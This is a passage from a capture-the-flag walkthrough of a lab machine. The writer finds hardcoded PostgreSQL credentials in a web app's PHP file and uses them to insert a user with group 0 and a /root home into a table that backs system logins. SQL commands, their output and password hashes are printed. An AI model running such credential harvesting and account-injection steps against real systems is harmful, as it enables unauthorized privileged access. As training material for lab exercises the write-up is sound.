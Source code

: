 Too bad, this user doesn't have access... But the web application probably has an account that has the correct rights to add users since we were able to create a user from the web interface earlier.

The `/var/www/html/admin/pages/actions.php` file contains the credentials we are looking for: `unixusrmgr / dheu%7wjx8B&`

```
if($action==='adduser'){
	$username=$_POST['username'];
	$passw=generateRandomString();
	$phash=crypt($passw);
	$dbconn = pg_connect("host=127.0.0.1 dbname=unix user=unixusrmgr password=dheu%7wjx8B&");
	$result = pg_prepare($dbconn, "q1", "insert into passwd_table (username, passwd, gid, homedir) values ($1, $2, 1001, '/var/jail/home')");
	$result = pg_execute($dbconn, "q1", array($username, $phash));
	echo "Provide this credentials to the user:<br><br>";
	echo "<b>$username : $passw</b><br><br><a href=/?page=users>Continue</a>";
}
```

Let's try the same SQL query again with these credentials:

```
unix=> insert into passwd_table (username, passwd, uid, gid, homedir) values ('snowscan','$6$oTkOZvSm$T5279pL/85f822ryylJBp0kHgGRoELCHb4OOBtwmkWWxZ6re/Vlxx6UAzEdZxhzd/MbSyjR5Kp1x4rtNCgHsJ1',0,0,'/root');
ERROR:  permission denied for relation passwd_table
```

Ugh. Same problem again, let's try adding a user without setting the UID, but only the GID:

```
unix=> insert into passwd_table (username, passwd, gid, homedir) values ('snowscan','$6$oTkOZvSm$T5279pL/85f822ryylJBp0kHgGRoELCHb4OOBtwmkWWxZ6re/Vlxx6UAzEdZxhzd/MbSyjR5Kp1x4rtNCgHsJ1',0,'/root');
ERROR:  duplicate key value violates unique constraint "passwd_table_username_key"
DETAIL:  Key (username)=(snowscan) already exists.
unix=> insert into passwd_table (username, passwd, gid, homedir) values ('snowscan2','$6$oTkOZvSm$T5279pL/85f822ryylJBp0kHgGRoELCHb4OOBtwmkWWxZ6re/Vlxx6UAzEdZxhzd/MbSyjR5Kp1x4rtNCgHsJ1',0,'/root');
INSERT 0 1
unix=> select * from passwd_table;
 username  |                                               passwd                                               | uid  | gid  | gecos |    homedir     |   shell   
-----------+----------------------------------------------------------------------------------------------------+------+------+-------+----------------+-----------
 tricia    | $1$WFsH/kvS$5gAjMYSvbpZFNu//uMPmp.                                                                 | 2018 | 1001 |       | /var/jail/home | /bin/bash
 snowscan  | $1$ANxI97CM$noo3OJtS7FevXzzfR//ih0                                                                 | 2020 | 1001 |       | /var/jail/home | /bin/bash
 snowscan2 | $6$oTkOZvSm$T5279pL/85f822ryylJBp0kHgGRoELCHb4OOBtwmkWWxZ6re/Vlxx6UAzEdZxhzd/MbSyjR5Kp1x4rtNCgHsJ1 | 2022 |    0 |       | /root          | /bin/bash
(3 rows)
```

Allright, we can log in now, but still don't have access to read root.txt, we'll need to have a UID of 0 to do that:
